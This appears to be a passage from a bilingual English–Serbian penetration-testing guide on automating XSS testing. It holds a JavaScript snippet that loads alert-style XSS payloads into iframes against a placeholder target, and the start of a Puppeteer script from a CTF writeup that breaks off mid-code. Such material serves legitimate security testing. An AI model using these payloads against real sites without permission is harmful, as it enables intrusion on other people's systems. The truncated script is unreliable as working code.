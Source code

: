 Sometimes, when testing for Cross-Site Scripting (XSS) vulnerabilities, it can be useful to automate the process of accessing a target website with different payloads. This can help identify potential vulnerabilities and test the effectiveness of various XSS attack vectors.

U nekim slučajevima, prilikom testiranja ranjivosti Cross-Site Scripting (XSS), korisno je automatizovati proces pristupa ciljnom veb sajtu sa različitim payloadima. Ovo može pomoći u identifikaciji potencijalnih ranjivosti i testiranju efikasnosti različitih vektora napada XSS.

To achieve this, you can use JavaScript to automatically load and execute the payloads in the browser. By injecting the necessary code into the target website, you can trigger the execution of the payloads without manual intervention.

Da biste to postigli, možete koristiti JavaScript da automatski učitate i izvršite payloade u pretraživaču. Ubacivanjem odgovarajućeg koda na ciljni veb sajt, možete pokrenuti izvršavanje payloada bez ručnog intervencije.

Here is an example of how you can achieve automatic browser access to test payloads:

Evo primera kako možete postići automatski pristup pretraživaču za testiranje payloada:

```javascript
<script>
  // Define an array of payloads
  var payloads = [
    "<script>alert('XSS');</script>",
    "<img src='x' onerror='alert(\"XSS\")'>",
    "<svg onload='javascript:alert(\"XSS\")'></svg>"
  ];

  // Loop through the payloads and load them in the browser
  for (var i = 0; i < payloads.length; i++) {
    var iframe = document.createElement("iframe");
    iframe.src = "https://target-website.com/?payload=" + encodeURIComponent(payloads[i]);
    document.body.appendChild(iframe);
  }
</script>
```

This code snippet creates an array of payloads and then loops through each payload, creating an iframe element for each one. The iframe's source is set to the target website with the payload as a query parameter. By appending the payload to the URL, the browser will automatically load and execute the payload.

Ovaj kodni odlomak kreira niz payloada, a zatim prolazi kroz svaki payload, stvarajući iframe element za svaki od njih. Izvor iframa se postavlja na ciljni veb sajt sa payloadom kao parametrom upita. Dodavanjem payloada na URL, pretraživač će automatski učitati i izvršiti payload.

By using this technique, you can quickly test multiple payloads and identify any potential XSS vulnerabilities in the target website.

Korišćenjem ove tehnike, možete brzo testirati više payloada i identifikovati potencijalne XSS ranjivosti na ciljnom veb sajtu.
```javascript
//Taken from https://github.com/svennergr/writeups/blob/master/inti/0621/README.md
const puppeteer = require("puppeteer");

const realPasswordLength = 3000;
async function sleep(ms) {
return new Promise((resolve) => setTimeout(resolve, ms));
}

(async () => {
const browser = await puppeteer.launch();
const page = await browser.newPage();
//Loop to iterate through different values
for (let i = 0; i < 10000; i += 100) {
console.log(`Run number ${i}`);
const input = `${"0".repeat(i)}${realPasswordLength}`;
```